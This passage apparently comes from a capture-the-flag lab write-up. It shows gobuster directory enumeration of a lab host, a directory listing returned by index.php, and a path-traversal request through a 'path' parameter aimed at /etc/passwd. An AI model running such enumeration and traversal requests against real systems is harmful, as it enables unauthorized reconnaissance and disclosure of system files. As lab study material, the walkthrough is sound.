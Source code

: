 ```bash
❯ gobuster dir -w common.txt -u http://$IP/ -x md,js,html,php,py,css,txt,bak -t 30
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.84.234/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Extensions:              md,js,html,php,py,css,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 329]
/info.php             (Status: 200) [Size: 68944]
Progress: 42651 / 42651 (100.00%)
===============================================================
Finished
===============================================================
```

I used -t `30` beacuse i was geting some timeouts.

```bash
❯ curl $IP/index.php
<html>
<body>
	<pre>
	total 28K
drwxr-xr-x 2 root root 4.0K Jul 16  2021 .
drwxr-xr-x 3 root root 4.0K Jul 15  2021 ..
-rw-r--r-- 1 root root  11K Jul 15  2021 index.html
-rw-r--r-- 1 root root  154 Jul 16  2021 index.php
-rw-r--r-- 1 root root   20 Jul 15  2021 info.php
	<pre>

<!--  where is the path ?  -->

</body>
</html>
```

I think we can use index.php to make path traversal

```bash
❯ curl 'http://10.10.84.234/index.php?path=../../../../../../../../etc/passwd'
<html>
<body>
	<pre>
	-rw-r--r-- 1 root root 1.4K Jul 19  2021 ../../../../../../../../etc/passwd
	<pre>

<!--  where is the path ?  -->

</body>
</html>
```
